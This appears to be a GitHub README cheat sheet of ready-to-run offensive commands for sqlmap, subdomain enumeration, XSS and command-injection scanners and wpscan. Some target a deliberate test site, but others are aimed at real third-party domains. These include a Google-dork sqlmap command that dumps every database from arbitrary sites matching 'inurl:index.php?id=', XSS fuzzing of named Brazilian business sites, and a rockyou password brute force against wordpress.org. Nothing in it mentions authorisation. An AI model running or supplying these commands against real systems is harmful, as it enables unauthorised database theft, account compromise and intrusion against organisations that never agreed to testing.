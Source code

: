<h1 align="center">sqlmap</h1>

# parameter finding google dork

    site: .com.br inurl .php id=

# finding vuln parameter using google dork
    sqlmap -g "inurl:index.php?id=" --dump-all --batch --threads 7 -o sqldumldataauto.txt
# auto crawling command

    sqlmap -u "http://testphp.vulnweb.com/" --crawl 3 --batch --threads 5 --random-agent --risk 1 --level 1 -o sqlcrawl.txt
    
# auto dumping databases

    sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --dump-all --batch --threads 7 -o sqldumldataauto.txt

# Step by step dumping databases

    sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --dbs --batch --threads 5 -o sqldumpfulldatabase.txt
    
# Step by step dumping databases
    sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart --tables --batch --threads 5 -o sqldumpfulltable.txt
    
# Step by step dumping databases
    sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users --columns --batch --threads 5 -o sqlreadallcolumnsdata.txt
    
# Step by step dumping databases
    sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users -C uname --dump --batch --threads 5 -o sqldumpfullcolumns.txt

## Login page brute-forcing

    sqlmap -u "http://testphp.vulnweb.com/login.php" --forms -o sqlbruteForcelogin.txt
    

    sqlmap -u "http://testphp.vulnweb.com/userinfo.php" --data="uname=abd&pass=abc&login=submit" --dbs

<h1 align="center">Sub Domain Enumeration</h1>

### Sub Domain finding using assetfinder+httpx
    assetfinder -subs-only faculdadeunica.com.br | httpx -random-agent -mc 200,302 -silent -server -tech-detect -status-code | tee path/validsubDomains.txt

<h1 align="center">CMS Detector</h1>

### auto Detecting
    cmseek -u https://wordpress.org --batch | tee 'path/cmsDetector.txt'

<h1 align="center">Gospider</h1>

### Paramiter finding
    gospider -s "https://www.farmasilva.com.br" --no-redirect -o gospider.txt

<h1 align="center">XSStrike, xss finder</h1>

### xss finding
    xsstrike -u "https://www.farmasilva.com.br/search?search_query=query" -f /usr/share/wordlists/SecLists/Fuzzing/XSS/XSS-Bypass-Strings-BruteLogic.txt

<h1 align="center">XSpear, xss finder</h1>

### xss finding
    XSpear -u 'http://testphp.vulnweb.com/listproducts.php?cat=123' -v 2 -o XSpear.txt

<h1 align="center">commix, xss finder</h1>

### os command injection finding
    commix -u 'http://192.168.31.177/vulnerabilities/exec/#' --cookie="security=low; PHPSESSID=hcjrgadiie5f40vup73ehe0fu7; security=low" --data="ip=INJECT_HERE&Submit=Submit"

<h1 align="center">wpscan</h1>

### Vulnerable plugin, themes, users
    wpscan --url https://wordpress.org -e vp,vt,u -o scanned.txt

### Vulnerable plugins, All plugins, Vulnerable themes, All themes, Timthumbs, Config backups, Db exports, User, Media, Bypassing Simple WAFs
    wpscan --url https://wordpress.org -e vp,vt,tt,cb,dbe,u,m --random-user-agent -v -o scanned.txt

### Password brute force attack
    wpscan --url https://wordpress.org -e u --passwords /usr/share/wordlists/rockyou.txt -o scanned.txt
